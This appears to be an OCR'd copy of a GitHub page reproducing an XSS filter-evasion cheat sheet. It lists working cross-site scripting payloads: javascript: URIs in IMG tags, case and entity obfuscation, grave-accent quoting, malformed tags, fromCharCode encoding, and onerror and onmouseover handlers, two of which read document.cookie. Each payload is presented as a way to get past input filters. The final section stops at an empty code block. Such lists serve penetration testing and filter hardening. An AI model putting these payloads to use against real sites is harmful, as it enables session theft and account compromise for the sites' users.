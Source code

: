 ### Image XSS Using the JavaScript Directive
\***IE7.0** doesn’t support the JavaScript directive in context of an image
```js
<IMG SRC="javascript:alert('XSS');">
```
### No Quotes and no Semicolon
```js
<IMG SRC=javascript:alert('XSS')>
```
### Case Insensitive XSS Attack Vector
```js
<IMG SRC=JaVaScRiPt:alert('XSS')>
```
### HTML Entities
```js
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
### Grave Accent Obfuscation
 If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string.
```js
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```
### Malformed A Tags
- Skip the HREF attribute and get to the meat of the XSS -> Verified on Chrome. 
```js
\<a onmouseover="alert(document.cookie)"\>xss link\</a\>
```
- Or Chrome loves to replace missing quotes for you :)
```js
\<a onmouseover=alert(document.cookie)\>xss link\</a\>
```
### Malformed IMG Tags
```js
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
### FromCharCode
If no quotes of any kind are allowed you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:
```js
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
### Default SRC Tag to Get Past Filters that Check SRC Domain
This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here.
```js
<IMG SRC=# onmouseover="alert('xss')">
```
### IMG onerror and JavaScript Alert Encode
```js
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
### Decimal HTML Character References
- All of the XSS examples that use a javascript: directive inside of an `<IMG` tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode
```js
```